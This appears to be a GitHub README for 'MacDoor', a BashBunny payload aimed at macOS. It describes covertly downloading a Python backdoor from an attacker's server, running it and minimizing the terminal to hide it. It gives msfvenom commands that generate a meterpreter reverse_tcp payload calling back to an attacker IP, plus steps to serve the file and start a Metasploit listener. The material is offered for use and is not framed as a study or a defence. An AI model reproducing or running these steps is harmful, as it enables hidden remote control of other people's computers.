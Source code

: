 # MacDoor - Python Backdoor Execution for the BashBunny

```
    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/

```

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# DESCRIPTION

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# STEPS

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# NOTE

* You need to modify the script with your attacker IP and the port or your local server.

# VIDEO

https://www.instagram.com/reel/Cwk1SEft5FA/?igshid=MzRlODBiNWFlZA==
